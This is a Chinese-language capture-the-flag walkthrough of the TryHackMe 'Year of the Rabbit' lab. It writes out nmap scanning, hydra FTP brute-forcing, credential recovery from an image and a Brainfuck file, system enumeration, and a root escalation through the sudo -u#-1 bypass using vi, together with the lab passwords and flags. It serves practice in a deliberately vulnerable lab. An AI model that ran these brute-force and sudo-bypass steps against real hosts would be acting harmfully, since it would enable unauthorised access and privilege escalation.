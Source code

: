 # yeah of the rabbit

开启靶机，啥也不用说，nmap开扫

扫出21、22、80端口

用anonymous进ftp看看有没有东西

答案是没有甚至登不进去

打开burp进80的web页面看一手，顺便gobuster爆一下目录

进web页面 结果是：Apache2 Debian Default Page

gobuster啥也没爆出来

看一下源代码，有个/assets/style.css

点进去一眼就看到了 /sup3r_s3cr3t_fl4g.php

这个页面提示要关javascript ,那就进about:config给关了

重新加载页面，就一个视频，啥也没了，然后再看一下burp，看看每个请求的信息

我的burp安装了logger++，类似浏览器开发工具的network

/sup3r_s3cr3t_fl4g.php的之后一个请求是：

    http://10.10.144.221//intermediary.php?hidden_directory=/WExYY2Cv-qU

看一眼这个参数的名称，进：

    http://10.10.144.221/WExYY2Cv-qU

有一张图片，但是看这个图片竟是那个熟悉的女人，我相信学过misc或者图像处理的

应该对这个女人都不陌生，我估计图片里藏了东西

    wget http://10.10.144.221/WExYY2Cv-qU/Hot_Babe.png

图片下载下来

    strings ./Hot_Babe.png

果然有：

    Eh, you've earned this. Username for FTP is ftpuser
    One of these is the password:
    Mou+56n%QK8sr
    .....
    .............


将一大串密码copy下来，用hydra爆破ftp

    hydra -l ftpuser -P ./test1.txt 10.10.144.221 ftp

<pre>[<font color="#47D4B9"><b>21</b></font>][<font color="#47D4B9"><b>ftp</b></font>] host: <font color="#47D4B9"><b>10.10.144.221</b></font>   login: <font color="#47D4B9"><b>ftpuser</b></font>   password: <font color="#47D4B9"><b>5iez1wGXKfPKQ</b></font>
</pre>

<pre>ftp&gt; ls
229 Entering Extended Passive Mode (|||11713|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli&apos;s_Creds.txt
</pre>

有个文件下载下来，打开：

    +++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
    --<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
    ++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
    +++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
    ]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
    ++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
    --<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
    +<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
    ++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
    <]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
    <]>+. <+++[ ->--- <]>-- ---.- ----. <

这一看长得跟jsfuck有得一拼

直接复制这段东西去百度，得知是brainfuck ，果然都带个fuck

解密：

    User: eli
    Password: DSpDiM1wAEwid

ssh登录进去之后一顿操作

    ll
    uname -a
    id
    sudo -l
    sudo -V
    env
    ls -la /
    cat /etc/passwd
    find / -type f -u+s 2>/dev/null
    getcap -r / 2>/dev/null
    cat /etc/mail/eli
    ....

把home都翻烂了,什么都没找到

最终回到env看PATH，把PATH每个目录挨个问候了一遍

    PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

终于在/usr/games发现可疑文件夹，可疑到什么程度呢：明摆

<pre>li@year-of-the-rabbit:~$ ls -la /usr/games/s3cr3t/
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 <font color="#277FFF"><b>.</b></font>
drwxr-xr-x 3 root root 4096 Jan 23  2020 <font color="#277FFF"><b>..</b></font>
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!</pre>

    Your password is awful, Gwendoline. 
    It should be at least 60 characters long! Not just MniVCQVhQHUNI
    Honestly!

    Yours sincerely
    -Root

.

    gwendoline@year-of-the-rabbit:~$ cat user.txt
    THM{1107174691af9ff3681d2b5bdb5740b1589bae53}


查看sudo -l

    <pre>User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt</pre>

sudo -V

    version 1.8.10p3

版本小于1.8.28，在thm的另一个sudo漏洞教学的room中，我学到了关于小于1.8.28版本的漏洞

尝试：

    sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

成功进入vi

    :!/bin/bash

成功提权root

<pre>root@year-of-the-rabbit:/home/gwendoline# cat /root/root.txt 
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
</pre>
